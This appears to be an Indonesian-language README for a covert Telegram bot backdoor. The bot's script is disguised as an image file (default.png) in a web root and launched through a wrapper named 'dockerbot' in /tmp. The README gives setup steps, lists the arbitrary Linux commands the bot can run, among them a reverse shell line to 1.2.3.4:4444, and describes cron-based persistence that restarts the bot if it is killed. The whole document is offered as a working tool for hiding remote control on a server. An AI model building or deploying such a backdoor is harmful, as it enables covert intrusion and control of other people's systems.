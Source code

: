 # hidden bot Wrapper Script


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>
📌 Konsep Wrapper Script dalam Eksekusi Bot Telegram adalah, <br> skrip perantara yang digunakan untuk menjalankan program atau skrip lain secara tidak langsung. <br> Ini berguna untuk menyembunyikan, menyederhanakan, atau mengontrol eksekusi skrip utama.<br>

Dalam kasus ini, kita memiliki: <br>

Skrip utama (default.png) yang sebenarnya adalah bot Telegram, <br> tetapi namanya disamarkan agar terlihat seperti file gambar. <br>
Wrapper script (dockerbot), yang bertindak sebagai perantara untuk menjalankan default.png.

📂 Struktur File
```
/var/www/html/default.png  --> Skrip utama bot (disamarkan sebagai file gambar)
/tmp/img/dockerbot         --> Wrapper script untuk menjalankan default.png
```
📜 Isi Wrapper Script (dockerbot)
```
#!/bin/bash
/var/www/html/default.png
```

📌 Penjelasan:
```
#!/bin/bash → Menentukan bahwa skrip ini dijalankan menggunakan Bash.
/var/www/html/default.png → Memanggil skrip utama bot yang disamarkan sebagai file gambar.
Jadi, setiap kali dockerbot dijalankan, sebenarnya yang terjadi adalah default.png (yang merupakan bot Telegram) akan dieksekusi.
```
<br>
<br>
<br>
<br>


📌cara eksekusi
<br>
1️⃣ Buat file /tmp/img/dockerbot

Isi dengan:

```
#!/bin/bash
/sesuaikan/dengan/lokasi/botpng/default.png
```
2️⃣ Beri izin eksekusi
```
chmod 777 /tmp/img/dockerbot
```

3️⃣ menjalankan bot 

```
bash /tmp/img/dockerbot
```



apasaja yg bisa di jalankan di bot telegram

```
perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


🔥 Fitur systemd
✅ Monitoring bot setiap 5 menit menggunakan cronjob
✅ Jika bot mati, otomatis dijalankan ulang. otomatis
✅ Mengirim pesan saat bot mati (misalnya karena kill, CTRL+C, atau shutdown)

```
